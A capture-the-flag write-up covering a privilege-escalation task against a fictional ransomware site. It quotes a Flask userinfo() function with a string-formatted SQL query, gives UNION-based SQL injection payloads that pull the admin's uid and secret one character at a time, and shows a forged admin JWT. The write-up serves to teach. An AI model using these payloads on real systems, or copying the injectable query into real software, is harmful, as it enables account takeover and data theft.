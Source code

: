 <!-- HEADER -->
<div align="center">

# [\[<<\]](../Task6/) Task 7 - Privilege Escalation [\[>>\]](../Task8/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_[redacted]-informational?style=flat-square)
![Points: 300](https://img.shields.io/badge/Points-300-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/4diJM64.png)

</div>

<!-- DESCRIPTION -->
> With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.
> 
> Generate a new token value which will allow you to access the ransomware site *as an administrator*.
> 
> ---
> 
> Enter a token value which will allow you to login as an administrator.
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [genAdminToken.py](genAdminToken.py) - Generates a new admin token.

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution
Using the token we generated in the [last task](../Task6/), we can add it to our cookies and try to login. We know that the cookie name is `tok` from the [data file](../Task5/data.txt) we found. While you can do this natively using browser dev tools, I prefer to use a cookie-editor plugin:

![cookie](https://i.imgur.com/v4lXbXp.png)

Now that we should be authenticated, lets go to forum (we saw what pages existed from the [site source](../TaskB2/repo/app/templates/)) and see if we can find anything:

![forum](https://i.imgur.com/ZwhpLtK.png)

Interesting site. Lets get back to the task at hand, we need get an admin token. Going to `/adminlist` we see that the admin `SoggyPlate` is online:

![adminlist](https://i.imgur.com/kmR3aDf.png)

(RIP evil rock 😔😔)

Ok but how are we going to get an admin token? Well we only have limited access to the site. Looking at the [source code](../TaskB2/repo/app/), we can see that `/lock` and `/unlock` aren't much use to us. However, `userinfo()` is pretty interesting:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

Notice how the `infoquery` variable is not secure!

Compared to every other selection query we've seen so far:

```py
def validate_token(token):
	# snipped
	row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
	# snipped

def generate_token(userName):
	# snipped
	row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
	# snipped
	
def get_username():
	# snipped
	row = con.execute("select userName from Accounts where uid = ?", (uid,)).fetchone()
	# snipped
```

They all use `con.execute("...?...", (var,)).fetchone()` but ours is different! We directly use a string format:
```py
	infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
```

Looking into this online, I found that con execute is secure against SQL injections, but unlike the rest, the one in `userinfo()` is not, these are sloppy mistakes that can be exploited!


We can see that in `userinfo()` it takes a request value of `user`:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
```

This should just be equivalent of doing `/userinfo?user=0xfbad`! Lets try this with the admin's name `SoggyPlate`:

![userinfo](https://i.imgur.com/0Ah3Gvc.pngg)

Nice, so now we need to do a bit of SQL injection to get the admin's secret and user id. We can see that our input goes in that the query returns `memberSince, clientsHelped, hackersHelped, programsContributed`:

```py
if row != None:
	userName = query
	memberSince = int(row[0])
	clientsHelped = int(row[1])
	hackersHelped = int(row[2])
	contributed = int(row[3])
```

What instead we can do enter `'` so the query searches empty usernames (which there are none), then we UNION (combine) and select the information we want, in this case, just the user id. We can use this SQL payload:

```
' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --
```
Lets go to `/userinfo?user=' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --`:

![userinfo](https://i.imgur.com/6gVmwks.png)

Nice we got the admin's uid! (`15861`). Now we need to get the client secret. The issue however is that as we saw in the previous task, the client secret is a string, not a number. So we need somehow convert it to a number. What we'll do is convert the string into hex char by char and then convert it back via char codes:

```
' UNION SELECT 0, 0, 0, unicode(substr(secret, {index}, 1)) FROM Accounts WHERE userName='InexpensivePlastic' --
```

So lets run the [script](./genTargetToken.py) I made to automate this process

```
$ $ python genTargetToken.py
(..snipped..)

[!] Retrieved client secret:    6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P

[*] Generating token with of "SoggyPlate" with uid: 15861 and secret: 6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0
```

We got the client secret and thus were able to generate a new token! Lets submit `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0`.

![Task Screenshot](https://i.imgur.com/7bVNFF1.png)

> ```
> Great! What can we find in the admin area?
> ```

<!-- TL;DR -->
## Technical TL;DR
The site owners left a vulnerable SQL injection in the `userinfo()` function. We were able to use this to get the admin's uid and client secret. Since we can only get back numbers in the response, we convert each char of the secret into its unicode representation and then convert it back into a char to build out the final secret. Then use the same process as task 6 to generate a new token with the admin's uid and secret.

---

<div align="center">

[return to top](#top)

</div>